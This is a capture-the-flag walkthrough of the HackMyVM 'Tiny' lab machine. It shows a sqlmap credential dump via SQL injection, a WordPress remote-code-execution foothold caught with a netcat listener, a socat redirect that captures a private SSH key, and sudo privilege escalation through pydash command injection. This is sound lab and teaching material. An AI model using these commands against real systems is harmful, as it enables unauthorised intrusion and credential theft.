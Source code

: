 ```yaml
---
title: Tiny - HackMyVM Writeup
date: 2024-02-11
categories:
  - Writeups
tags:
  - Linux
  - Sql_injection
  - Wordpress
  - Enumeration
  - PrivEsc
---
```


# Arp-scan 

 Detecting the IP of the machine

```bash
192.168.1.97	08:00:27:ee:8a:18	PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
root@kali ~ [SIGINT]# nmap  -sC 192.168.1.97 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 06:17 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 91.04% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.76% done; ETC: 06:17 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.44% done; ETC: 06:17 (0:00:00 remaining)
Nmap scan report for tiny (192.168.1.97)
Host is up (0.0012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http
|_http-generator: WordPress 6.3.1
|_http-title: Blog
| http-robots.txt: 15 disallowed entries 
| /wp-admin/ /cgi-bin/ /private/ /temp/ /backup/ /old/ 
| /test/ /dev/ / /misc/ /downloads/ /doc/ /documents/ 
|_/restricted/ /confidential/
8888/tcp open  sun-answerbook
MAC Address: 08:00:27:EE:8A:18 (Oracle VirtualBox virtual NIC)
```

We can see that 80, 22 and 8888 ports are opened

# Add Hosts

![](/assets/img/tiny/website.png)

We are able to see that the website is loading contents in domain tiny.hmv, and hence we need to add the domain into /etc/hosts , so that it can resolve properly (virtual hosting).

```shell
echo "192.168.1.97  tiny.hmv" >> /etc/hosts
```

# Url Enumeration

As usual, firstly, we will check whether there is robots.txt

From robots.txt:

```shell
# Additional sitemap references
Sitemap: http://tiny.hmv/sitemap.xml
Sitemap: http://wish.tiny.hmv/sitemap.xml
```

We are able to find that there is a subdomain which is called "wish.tiny.hmw"

# Sql injection

Check whether the website is vulnerable to sqli(sql injection)

![](/assets/img/tiny/burp.png)

It appears that Sqli is existed on the website and there we use sqlmap to enumerate the user and the password in the database:

```shell
sqlmap -r req.req --batch -D wish_db -T admin -C id,password,username --dump 
```

Results:

```shell
Database: wish_db                                                         
Table: admin
[1 entry]
+----+--------------------------------------------+----------+
| id | password                                   | username |
+----+--------------------------------------------+----------+
| 1  | 8df4387dd1598d4dcf237f9443028cec           | umeko    |
+----+--------------------------------------------+----------+

```

*Not going to show the decrypted password, as the content of the decrypted password is offensive*

# Shell 

Logging into the website and using wpscan, we can detect that the website is vulnerable to  [CVE-2023-5201](https://github.com/advisories/GHSA-52wg-h24c-3wgr), which we can do Remote Code Execution.

![](/assets/img/tiny/wordpress_cve.png)

We listen to port 1234 by using nc (netcat) and get the shell

```bash
nc -nlvp 1234
```

Upgrading simple shells to fully interactive TTYs

```shell
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

Referring to the port scanning result earlier, we notice that port 8888 is opened as well and yet to be used, hence we can make a smart assumption.

```shell
ss -tulnp
ps -elf 
```

![](/assets/img/tiny/ps.png)

![](/assets/img/tiny/ss.png)

We can see that TinyProxy is running

By accessing  /etc/tinyproxy/tinyproxy.conf, we can the configurations

```shell
cat /etc/tinyproxy/tinyproxy.conf | grep -v "#"
```

![](/assets/img/tiny/config.png)

From that, we can see that port 1111 is opened, and all traffic is being directed to "localhost:1111"

If all the traffics is being directed to port 1111, we can make an assumption and listen to port 1111 by using "nc", from the response we can see that "Get http://127.0.0.1:8000/id_rsa".

Hence we can do a redirection of traffic from port 1111 to 8000 by using "Socat" 

```
socat -v tcp-listen:1111;reuseaddr tcp:localhost:8000
```

and hence we are able to get the private key, saving and naming it as "id_rsa"

![[/assets/img/tiny/private_key.png]]

granting "id_rsa" with 600 permission and we connect user vic by using "id_rsa" via ssh

```shell
chmod 600 id_rsa
ssh -i id_rsa vic@127.0.0.1
```

# Root Access

 After accessing user "vic", we are able to get our first flag.

![](/assets/img/tiny/user_flag.png)

By doing sudo -l, we can see that we can use sudo command to execute /opt/car.py

![](/assets/img/tiny/permissions.png)

We see what it is contained in "car.py" file and we can see "pydash lib", which we can find a Command Injection vulnerability  

```shell
cat car.py
```

![](/assets/img/tiny/car_py_content.png)

By doing this, we are able to get Root Permission and get the flag

![](/assets/img/tiny/privilege_escalation.png)
